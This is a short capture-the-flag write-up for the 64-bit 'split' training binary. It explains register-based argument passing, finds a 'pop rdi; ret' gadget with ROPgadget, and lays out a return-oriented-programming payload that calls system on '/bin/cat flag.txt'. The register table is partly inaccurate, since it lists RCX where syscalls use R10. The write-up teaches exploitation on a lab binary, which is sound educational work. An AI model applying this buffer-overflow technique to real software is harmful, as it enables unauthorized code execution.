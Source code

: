 # split - 64bit

The 64-bit binary is very similar to the [32-bit exploit](../32-bit/README.md). However, in x86 parameters are passed via registers instead of the stack.

Therefore, we need a gadget that pops our parameter (`/bin/cat flag.txt`) into the first parameter.

The order of the registers can be seen below:
```
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   RAX   | RDI  | RSI  | RDX  | RCX  | R8   | R9   |
+---------+------+------+------+------+------+------+
```

Finding the gadget can be achieved via `ROPgadget`

Running:

```
$ ROPgadget --binary ./split | grep pop

[...]
0x0000000000400883 : pop rdi ; ret
[...]
```

Therefore out payload will be:
```
junk            p64(0x90 x 40 bytes)
pop_rdi         p64(0x400883)
bin_cat addr    p64(<ADDR>)
system addr     p64(<ADDR>)
```

With the `<ADDR> `values being replaced with values discovered in the same was as the 32-bit binary.

This results in the bit_cat address being placed in the `RDI` and, thus, passed as a parameter to `system`.